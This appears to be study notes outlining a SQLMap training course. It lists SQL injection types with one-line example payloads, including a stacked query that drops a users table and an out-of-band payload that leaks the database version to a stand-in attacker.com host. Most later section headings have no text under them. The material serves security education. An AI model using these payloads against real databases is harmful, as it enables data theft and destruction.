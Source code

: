 # Getting Started

## SQLMap Overview

This section covers how to install sqlmap and the different types of sql injection it allows you to use.

SQLMap covers:
Boolean-based blind SQL Injection
An example of this inject would be `AND 1=1`

Error-based SQL Injection
An example of this injection would be `AND GTID_SUBSET(@@version,0)`
This is the second fastest injection

UNION query-based
An example of this injection would be `UNION ALL SELECT 1,@@version,3`
This is the fastest and best injection

Stacked queries
An example of this `; DROP TABLE users`

Time-based blind SQL Injection
Example `AND 1=IF(2>1,SLEEP(5),0)`

Inline queries
Example ``` sql
SELECT (SELECT @@version) from
```

Out-of-band SQL Injection
Example ``` sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

## Getting Started with SQLMap

## SQLMap Output Description

# Building Attacks

## Running SQLMap on an HTTP Request

## Handling SQLMap Errors

## Attack Tuning

# Database Enumeration

## Database Enumeration

## Advanced Database Enumneration

# Advanced SQLMap Usage

## Bypasswing Web Application Protections

## OS Exploitations

# Skills Assessment

## Skills Assessment
